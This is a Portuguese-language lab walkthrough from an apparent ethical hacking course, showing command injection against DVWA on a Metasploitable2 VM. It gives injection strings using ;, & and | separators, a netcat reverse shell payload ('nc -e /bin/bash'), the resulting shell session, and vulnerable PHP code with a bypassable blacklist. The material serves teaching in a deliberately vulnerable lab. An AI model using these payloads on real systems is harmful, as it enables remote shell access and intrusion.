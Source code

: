 # Command Injection

Esse exercício é realizado na VM do metasploit2. 
- Após iniciar a VM, abrir on endereço IP da VM em um browser
- Selecionar o botão **Command Execution**

![command execution](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_1.png)

## DVWA com Segurança baixa

Para executar o camando ping basta entra o IP desejado e clicar em *submit*

![ping](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_2.png)

Em seguida obtermos o resultado:

![ping resultado](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_3.png)

**A questão:** É possivel injetar comando 'alienígêna' no prompt? 
- Usando o separado ';' injetamos o comando 'ls -la'

  `192.168.1.10; ls -la`

  ![injeção de ls -la](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_4.png)

- Obtemos o seguinte resultado:

  ![injeção de ls -la resultado](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_5.png)

Assim, é possível injetar umcomando malicioso no prompt.
- Para obter um sessão netcat com o alvo, iniciamos o netcat em modo listener em nossa máquina.

  `nc -lvp 12345` - onde 12345 é a porta que seleciomos para a escuta.
  ```
  └─$ nc -lvp 12345
  listening on [any] 12345 ...
  ```

- No prompt da página web, injetamos o comando netcat com a mesma porta do listener.

  `192.168.1.10; nc -e /bin/bash 192.168.1.10 12345`

  ![injeção netcat](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_6.png)

- Em nosso terminal obtemos uma conexão com o VM através do netcat.
  ```
  connect to [192.168.1.10] from (UNKNOWN) [192.168.1.33] 49007
  
  whoami
  www-data
  
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  
  groups
  www-data
  
  ls -la
  total 20
  drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
  drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
  drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
  -rw-r--r--  1 www-data www-data 1509 Mar 16  2010 index.php
  drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
  ```
Essa vunerabilidade ocorre devido a falha de programação da página web, que aceita operadores que controlam como e quando os comandos são executados.

## DVWA com Segurança baixa

Tentaremos novamente injetar um comando malicioso no prompt da página, mas desta vez com a segurança em nível médio.

 - Repetindo a injeção de comando com operador **;**: `192,168.1.10; ls -la`, não obtemos resposta, indicando que esse operador é inútil para nossos objetivos.
 - Contudo, existem outros operadores para controle de fluxo de comandos:
   - `comando1 ; comando2` - comando2 será executado **sempre**, mesmo que comando1 falhe.
   - `comando1 && comando2` - comando2 só será executado se comando1 **retornar sucesso**
   - `comando &` -  comando é iniciado **em background**, liberando o terminal para outras tarefas.
   - `comando1 | comando2` - Conecta comandos: a saída de comando1 vira a entrada de comando2.
  - O primeiro opetrador (;) foi rejeitado, vamos para o seguinte:
  - Operador &&: `192,168.1.10 && ls -la`
    - Também não funcionou
  - Operador &: `192,168.1.10 & ls -la`
    - A injeção funcionou.
    
      !resultado injeção
         
  - Operado |: `192,168.1.10 | ls -la`
    - De forma similar ao operado &, também funcionou.

De forma análoga a injeção no DVWA de baixa segurança, podemos injetar um comando de netcat.
- `192.168.1.10 & nc -e /bin/bash 192.168.1.10 12345`, ou
- `192.168.1.10 | nc -e /bin/bash 192.168.1.10 12345`

Obtendo mais uma vez conexão via netcat.
```
└─$ nc -lvp 12345
listening on [any] 12345 ...
192.168.1.33: inverse host lookup failed: Unknown host
connect to [192.168.1.10] from (UNKNOWN) [192.168.1.33] 38607

whoami
www-data
```
Apesar de filtar os operadores ";" e "&&", a página ainda deixou algums operadores de fora, sendo possível a injeção de comando.
```
 <?php

if( isset( $_POST[ 'submit'] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Remove any of the charactars in the array (blacklist).
    $substitutions = array(
        '&&' => '',
        ';' => '',
    );

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }
}

?>
```
## DVWA com Segurança alta

O DVWA Command Execution é **projetado para bloquear tentativas de injeção de comandos** no **nível alto**.

O nível High foi feito para simular um ambiente mais seguro, aplica validação rigorosa de entrada, usando funções como escapeshellcmd() ou preg_match() para filtrar comandos maliciosos. Isso impede injeções direta. Ele  mas ainda pode ser explorado com técnicas avançadas, especialmente se combinado com outras vulnerabilidades (como file upload ou XSS).



